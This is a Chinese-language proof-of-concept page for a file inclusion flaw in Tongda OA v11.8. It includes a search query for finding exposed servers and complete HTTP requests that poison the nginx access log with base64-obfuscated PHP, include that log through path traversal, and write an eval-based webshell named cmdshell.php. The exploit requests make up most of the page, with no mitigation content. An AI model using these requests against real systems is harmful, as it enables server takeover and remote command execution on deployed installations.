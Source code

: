 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

```
通达OA v11.8
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154525896](./images/202205201545994.png)

发送恶意请求让日志被记录

```
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![image-20220520154539264](./images/202205201545324.png)

在通过漏洞包含日志文件

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![image-20220520154553517](./images/202205201545558.png)

再次发送恶意请求写入文件

```
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![image-20220520154607791](./images/202205201546852.png)

访问写入的文件 `/mac/cmdshell.php`

![image-20220520154623095](./images/202205201546179.png)